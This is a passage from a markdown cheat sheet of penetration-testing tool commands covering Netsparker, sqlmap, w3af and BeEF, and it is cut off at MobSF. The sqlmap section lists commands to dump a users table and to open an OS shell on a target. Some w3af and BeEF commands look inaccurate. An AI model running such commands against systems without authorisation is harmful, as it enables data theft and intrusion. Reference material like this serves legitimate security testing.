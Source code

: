 ```
  1. `netsparker scan-list` - List all active scans.
  2. `netsparker scan-pause -i <scan_id>` - Pause an ongoing scan.

- **Advanced Commands:**
  1. `netsparker scan-details -i <scan_id>` - View detailed information about a scan.
  2. `netsparker scan-resume -i <scan_id>` - Resume a paused scan.
  3. `netsparker generate-report -i <scan_id> -t pdf` - Generate a PDF report for a scan.

### 12. sqlmap

- **Description:** sqlmap is an open-source penetration testing tool that automates the detection and exploitation of SQL injection flaws.

- **Basic Commands:**
  1. `sqlmap -u "https://example.com/?id=1"` - Test a single URL for SQL injection.
  2. `sqlmap -r request.txt` - Test a request file for SQL injection.

- **Intermediate Commands:**
  1. `sqlmap -u "https://example.com/?id=1" --dbs` - Enumerate available databases.
  2. `sqlmap -u "https://example.com/?id=1" -D dbname --tables` - List tables in a database.

- **Advanced Commands:**
  1. `sqlmap -u "https://example.com/?id=1" -D dbname -T users --dump` - Dump data from a specific table.
  2. `sqlmap -u "https://example.com/?id=1" --os-shell` - Get an interactive OS shell.

### 13. W3af

- **Description:** w3af is an open-source web application security scanner.

- **Basic Commands:**
  1. `w3af_console` - Start w3af in console mode.
  2. `w3af_gui` - Start w3af in GUI mode.

- **Intermediate Commands:**
  1. `target <target>` - Set the target URL.
  2. `plugin_scan webapp sqli` - Run a SQL injection scan.

- **Advanced Commands:**
  1. `grep_set greps/known_greps` - Use predefined grep settings.
  2. `back` - Go back to the main menu.
  3. `output list` - Display available output plugins.

### 14. BeEF

- **Description:** BeEF (Browser Exploitation Framework) is a penetration testing tool focused on web browsers.

- **Basic Commands:**
  1. `./beef` - Start the BeEF server.
  2. `show` - Show available modules.

- **Intermediate Commands:**
  1. `use <module>` - Use a specific module.
  2. `set target http://target.com` - Set the target URL.

- **Advanced Commands:**
  1. `set bind_port 3000` - Set the listening port.
  2. `exploit` - Execute the selected module.

### 15. MobSF

```
